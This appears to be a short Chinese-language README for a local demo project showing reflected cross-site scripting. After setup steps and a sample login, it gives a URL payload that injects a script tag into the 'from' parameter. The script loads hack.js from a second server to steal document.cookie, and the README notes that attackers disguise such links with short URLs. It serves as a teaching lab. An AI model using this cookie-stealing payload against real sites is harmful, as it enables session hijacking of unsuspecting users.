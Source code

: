 # xss-cookie
### 安装数据库
首先需要安装数据库，具体见https://mp.csdn.net/postedit/104061730
有我的安装和数据添加过程。

###克隆我的git

####安装依赖

cnpm i

nodemon index.js

打开浏览器输入 http://localhost:3000/

先用你自己设置的数据登陆。
以我的为例：用户名：liuwei
           密码：  111111
 
 
 页面中的信息中的china来自地址栏：http://localhost:3000/?from=china
 
 你可以输入
http://localhost:3000/?from=<script>alert(3)</script>

会发现有弹窗。

再次输入http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>

就可以获取到你的document.cookie值了。

有时候会通过短地址的形式伪装url。




